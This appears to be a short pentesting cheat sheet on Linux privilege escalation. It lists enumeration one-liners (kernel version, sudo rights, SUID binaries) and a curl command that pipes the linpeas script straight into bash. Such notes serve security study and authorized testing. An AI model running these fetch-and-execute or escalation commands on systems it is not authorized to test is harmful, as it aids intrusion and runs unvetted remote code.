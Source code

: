 # Common Privesc Methods

For Linux privesc I usually like enumerating all directories and unusual files I have access too, and then, running a common binary and some one-liners.

## Identifying Privesc

### One-Liners

Run the following one liners to enumerate your privs on the box:

- `uname -a` == Gives you linux kernel ver.
- `sudo -l` == Shows you where you have SUDO privs.
- `find / -perm -u=s -type f 2>/dev/null` == Locate SUID Binaries.

### Linpeas

`curl -sL https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/linpeas/linpeas.sh | bash`
